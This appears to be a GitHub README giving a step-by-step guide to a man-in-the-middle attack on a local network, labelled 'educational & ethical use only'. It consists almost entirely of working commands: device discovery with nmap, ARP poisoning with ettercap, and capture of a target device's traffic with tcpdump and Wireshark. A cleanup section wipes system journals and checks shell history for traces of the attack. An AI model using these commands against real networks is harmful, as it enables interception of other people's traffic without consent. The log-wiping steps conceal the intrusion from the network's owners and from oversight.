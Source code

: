 
# ⚠️ MITM Attack Guide (Man-In-The-Middle)  
**For Educational & Ethical Use Only**

---

## ✅ Overview

This guide outlines how to perform a full MITM (Man-in-the-Middle) attack on a local network using ARP poisoning. You’ll intercept and analyze network traffic from a target device using tools like `ettercap`, `tcpdump`, and `Wireshark`.

---

## 🧰 Prerequisites

### 📦 Install Required Tools

```bash
sudo apt update
sudo apt install -y ettercap-text-only wireshark-qt dsniff arp-scan nmap
````

* `ettercap`: ARP poisoning & MITM attack engine
* `wireshark`: Network packet analyzer (GUI)
* `dsniff`: Network auditing toolset
* `arp-scan`: Device discovery
* `nmap`: Host and service discovery

---

## 🌐 Network Discovery

### 1. Identify Your Interface

```bash
ip addr show
```

Look for your WiFi interface (e.g., `wlo1`) with a valid local IP.

### 2. Discover Devices on the Network

```bash
nmap -sn 192.168.31.0/24
```

Find:

* Your IP
* Gateway (router)
* Target device(s)

### 3. Check ARP Table

```bash
arp -a
```

Shows known IP-to-MAC mappings on the LAN.

---

## 🧪 MITM Attack Execution

### 1. Enable IP Forwarding

```bash
sudo sysctl net.ipv4.ip_forward=1
```

This allows your machine to relay packets between the target and the router.

### 2. Launch ARP Spoofing Attack

```bash
sudo ettercap -T -M arp:remote /<router_ip>// /<target_ip>// -i <interface>
```

This poisons both the router and the target device ARP caches, rerouting their traffic through your system.

### 3. Verify Attack Is Running

```bash
ps aux | grep ettercap | grep -v grep
```

You should see a running ettercap process with target IPs and interface listed.

---

## 📥 Traffic Capture & Analysis

### Method 1: Command Line Sniffing

```bash
sudo tcpdump -i <interface> -n host <target_ip> -w capture.pcap
```

Analyze with:

```bash
sudo tcpdump -r capture.pcap -nn | head -20
```

### Method 2: GUI Analysis with Wireshark

```bash
sudo wireshark &
```

* Select your interface (e.g., `wlo1`)
* Apply filters like:

  * `ip.addr == <target_ip>`
  * `dns`
  * `tcp.port == 80`
  * `sip or rtp` (for VoIP)

---

## 🛑 Stopping & Cleaning Up

### 1. Stop Attack

Press `Ctrl+C` in the terminal running ettercap or tcpdump.

### 2. Manual Cleanup

```bash
sudo pkill ettercap tcpdump wireshark tshark
sudo sysctl net.ipv4.ip_forward=0

# Reset iptables
sudo iptables -F
sudo iptables -t nat -F
sudo iptables -t mangle -F
sudo iptables -X
sudo iptables -P INPUT ACCEPT
sudo iptables -P FORWARD ACCEPT
sudo iptables -P OUTPUT ACCEPT

# Clear ARP cache
sudo arp -d <router_ip>
sudo arp -d <target_ip>
sudo ip -s -s neigh flush all

# Refresh router/target ARP with arping (optional)
sudo arping -c 4 <router_ip>
sudo arping -c 4 <target_ip>
```

### 3. Restart Network Services

```bash
sudo systemctl restart NetworkManager
sudo ip link set wlo1 down
sudo ip link set wlo1 up
```

---

## 🧠 Key Learnings

* **MITM Positioning:** You can route traffic between LAN devices and observe it.
* **Traffic Interception:** DNS queries, connection metadata, and unencrypted protocols are fully visible.
* **Limitations:** Encrypted traffic (HTTPS, VPN, ESP) will remain unreadable but still traceable.

---

## 🔐 Post-Attack Security Audit

```bash
# Ensure forwarding is OFF
cat /proc/sys/net/ipv4/ip_forward

# Check for leftover attack processes
ps aux | grep -E "ettercap|tcpdump|wireshark" | grep -v grep

# Clean logs
sudo journalctl --rotate
sudo journalctl --vacuum-time=1s

# Clear sensitive shell history
history | grep -E "(ettercap|tcpdump|wireshark|arp)"
```



---

## 🗃️ Files Involved

* `capture.pcap` — Captured traffic file

---

## 🚨 Emergency Recovery (If Network Breaks)

```bash
sudo systemctl stop NetworkManager
sudo ip addr flush dev wlo1
sudo ip route flush table main
sudo systemctl start NetworkManager
sudo dhclient wlo1
```

---

